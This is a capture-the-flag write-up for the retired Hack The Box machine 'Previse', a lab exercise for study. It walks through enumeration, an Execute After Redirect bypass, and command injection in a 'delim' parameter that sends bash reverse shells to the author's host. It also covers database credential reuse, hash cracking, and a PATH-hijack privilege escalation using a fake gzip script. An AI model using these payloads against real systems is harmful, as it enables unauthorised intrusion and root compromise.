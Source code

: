 # Previse

This is the write-up for the box Previse that got retired at the 8th January 2022.
My IP address was 10.10.14.3 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.104    previse.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/previse.nmap 10.10.11.104
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 53ed4440116e8bda698579c081f23a12 (RSA)
|   256 bc5420ac1723bb5020f4e16e620f01b5 (ECDSA)
|_  256 33c189ea5973b1788438a421100c91d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Previse Login
|_Requested resource was login.php
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The website forwards to _login.php_ and there is a login field:

![Login for file storage](previse_web-1.png)

Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://10.10.11.104/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It finds several directories, but all of them forward to _login.php_:
- _index.php_
- _download.php_
- _files.php_
- _accounts.php_
- _config.php_
- _logs.php_

All these locations have different response sizes, which means that the content is loaded and then forwarded.
This vulnerability is called **Execute After Redirect (EAR)** and can be used to access functions that should not be seen.

By forwarding the requests to a proxy like **Burpsuite**, the other directories can be further analyzed.
When changing the response from _"302 Found"_ to _"200 OK"_, it will forward the data from the other directories to our browser:

![Forwarding to accounts.php](previse_web-2.png)

In _accounts.php_ it is possible to create a user account that can be used to login to the website.
After login, the menu _Files_ has one uploaded file called _siteBackup.zip_ that can be downloaded:
```
unzip siteBackup.zip
```

Searching PHP files for all fields with user input:
```
grep '$_' * | grep -v '_SERVER\|_SESSION'
```

The file _logs.php_ uses an _exec_ function to execute system commands:
```
logs.php:$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

When browsing to _logs.php_, it downloads a file without any useful information.
The file _file_logs.php_ is referencing this file and can be found in the menu as _Log Data_:
```
grep logs.php *
```
```
file_logs.php: <form action="logs.php" method="post">
```

![Request log data](previse_web-3.png)

Forwarding the request to **Burpsuite**:
```
POST /logs.php HTTP/1.1
Host: 10.10.11.104
(...)

delim=comma
```

The parameter _"delim"_ is executed by a Python script and it should be possible to inject commands after a semicolon:
```
delim=comma;sleep 2
```

The request takes more than two seconds which means that command execution is successful.
Using the vulnerability to gain a reverse shell:
```
delim=comma; bash -c 'bash -i >& /dev/tcp/10.10.14.3/9001 0>&1'
```

After URL-encoding command and sending the request, the listener on my IP and port 9001 starts a reverse shell as the user _www-data_.

## Privilege Escalation

The file _config.php_ has credentials for the database:
```
$host = 'localhost';
$user = 'root';
$passwd = 'mySQL_p@ssw0rd!:)';
$db = 'previse';
```

Connecting to the database:
```
mysql -u root -p
```

Dumping the contents of the database:
```
mysql> show databases;

mysql> use previse;
mysql> show tables;

mysql> select * from accounts;
```
```
m4lwhere  | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
```

There is a hash of the user _m4lwhere_ that also exists in the _/etc/passwd_ file.
Trying to crack the password with **Hashcat**:
```
hashcat -m 500 previse_sql.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password can be used to SSH into the box:
```
ssh m4lwhere@10.10.11.104

m4lwhere@10.10.11.104's password: ilovecody112235!
```

### Privilege Escalation to root

With `sudo -l` it is possible to check the root privileges of the user:
```
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

The user _m4lwhere_ can run a bash script as root that uses `gzip` for backup.
The script itself cannot be abused to escalate privileges, but the `sudo` command did not show a _secure_path_.

This means that it is possible to create our own **gzip** executable in a path directory that has priority and it will be executed when running the script.

Adding the home directory to the **PATH environment variable**:
```
export PATH=/home/m4lwhere:$PATH
```

Creating a bash script with the name _gzip_ into the directory:
```bash
#!/bin/bash

echo "Here is a root shell"
bash -i >& /dev/tcp/10.10.14.3/9002 0>&1
```

Making the script executable:
```
chmod +x gzip
```

Executing the _access_backup.sh_ bash script with `sudo`:
```
sudo /opt/scripts/access_backup.sh
```

After executing the script, the listener on my IP and port 9002 starts a reverse shell as root!
